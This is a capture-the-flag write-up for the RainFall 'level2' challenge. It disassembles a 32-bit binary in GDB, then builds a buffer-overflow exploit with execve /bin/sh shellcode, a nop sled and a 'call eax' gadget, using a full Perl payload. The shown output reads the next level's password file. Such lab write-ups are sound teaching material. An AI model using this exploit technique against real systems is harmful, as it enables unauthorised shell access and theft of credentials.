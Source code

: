 # level2

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We check the functions:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

Cool! Let's take a look at `main`:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

It calls function `<p>`. *Bueno*.

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>       ; Flush the stdout.
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]               ; eax = ebp - 76 bytes.
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax          ; *esp = eax.
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>         ; Call `gets`.
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]      ; Put eip in eax.
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax      ; Put eip at ebp-0xc.
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]      ; Move eip in eax again.
   0x080484fb <+39>:    and    eax,0xb0000000               ; eip & 0xb0000000 is a filter.
   0x08048500 <+44>:    cmp    eax,0xb0000000               ; Is eax != 0xb0000000?
   0x08048505 <+49>:    jne    0x8048527 <p+83>             ; Yes: jump to <p+83>.
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]      ; edx = eip (formerly at ebp-0xc).
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx      ; Put eip on stack at esp+0x4.
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax          ; Put eax on stack at esp.
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>       ; Call printf with parameters put on stack.
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1          ; Put 0x1 on stack at esp.
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>        ; Call exit, that is to say exit(1).
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

## Exploit

After analysis, we know that we can't use a stack address in `eip`. Hopefully, `strdup` allows us to go on the heap
where our string will be duplicated. Like in level1, we use this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to find the offset: 80.

Here is how it works:
1. The buffer will contain a shellcode to spawn a new shell.
2. But, this buffer is both on the stack and the heap because of `strdup`. It returns the string pointer into `eax`.
3. The filter (`eax & 0xb0000000`) avoid us to use stack addresses. We need to use the one on the heap. So we are going
   to use a `call eax` instruction to jump to our buffer content (with the shell-code).

So let's do it! First, design the shell code. 

```
\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

is equivalent to:

```C
excve("/bin/sh", ["/bin/sh"], NULL);
```

Now, we need to look for a `call eax` instruction to get its address:

```console
level2@RainFall:~$ objdump -d -M intel level2 | grep "call   eax"
 80484cf:   ff d0                call   eax
 80485eb:   ff d0                call   eax
```

So now we have almost everything. We just need to add a `nop` sled and a `jump` instruction to avoid an infinite loop
between the beginning of the buffer and the `call eax`. Let's dump it into a file:

```console
level2@RainFall:~$ perl -e 'print "\x90"x62 . "\xeb\x14" . "\x90"x16 . "\xcf\x84\x04\x08" . "\x90"x20 . "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"' > /tmp/level2
```

And you run:

```console
level2@RainFall:~$ cat /tmp/level2 - | ./level2
...
[hit return, some garbage display]
...
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
